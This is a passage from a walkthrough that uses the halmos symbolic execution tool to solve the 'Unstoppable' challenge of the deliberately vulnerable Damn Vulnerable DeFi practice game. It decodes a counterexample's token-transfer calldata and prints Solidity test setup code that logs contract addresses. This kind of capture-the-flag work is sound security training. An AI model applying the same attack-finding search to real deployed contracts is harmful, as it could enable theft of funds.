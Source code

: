 ```javascript
}
```
Execute again:
```bash
halmos --solver-timeout-assertion 0
...
Counterexample: 
    halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
    halmos_data_bytes_02 = 0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa000300000000000000000000000000000000000000000000000003c723168ff988000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
...
```
SPOILER: this is exactly what we are searching for!

Let's break down this output:
```bash
halmos_contract_index_uint256_01 = 0x0000000000000000000000000000000000000000000000000000000000000000 (0)
```
means that this is the 0th contract from known contracts list (DamnValuableToken contract)
```bash
halmos_data_bytes_02 = 0xa9059cbb00000000000000000000000000000000000000000000000000000000aaaa000300000000000000000000000000000000000000000000000003c723168ff988000000000000000000000000000000000000000000000000000000000000000000 (100 bytes)
```
is more interesting. First 4 bytes "a9059cbb" are token "transfer" selector
Next bytes 
```bash
00000000000000000000000000000000000000000000000000000000aaaa0003
```
are some address. This is tokens receiver address. We'll find out what address is it later.
And the third part 
```bash
00000000000000000000000000000000000000000000000003c723168ff988000000000000000000000000000000000000000000000000000000000000000000
```
is amount of tokens to transfer. 0s in the end is padding. Since we generated 100 symbolic bytes, it generates 0s padding. We can leave it as is.
Now, it is necessary to find out what the address is our "receiver". We'll use console logging functional from forge and print all contracts addresses in "setUp()" function:
```javascript
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma  solidity =0.8.25;
import {Test, console} from  "forge-std/Test.sol";
import {DamnValuableToken} from  "../../src/DamnValuableToken.sol";
import {UnstoppableVault, Owned} from  "../../src/unstoppable/UnstoppableVault.sol";
import {UnstoppableMonitor} from  "../../src/unstoppable/UnstoppableMonitor.sol";
import  "./AbstractAttacker.sol";
import  "forge-std/console.sol";
...
function  setUp() public {
...
	console.logAddress(address(token));
	console.logAddress(address(vault));
	console.logAddress(address(monitorContract));

	vm.stopPrank();
}
```
Execute:
```bash
halmos --solver-timeout-assertion 0
...
```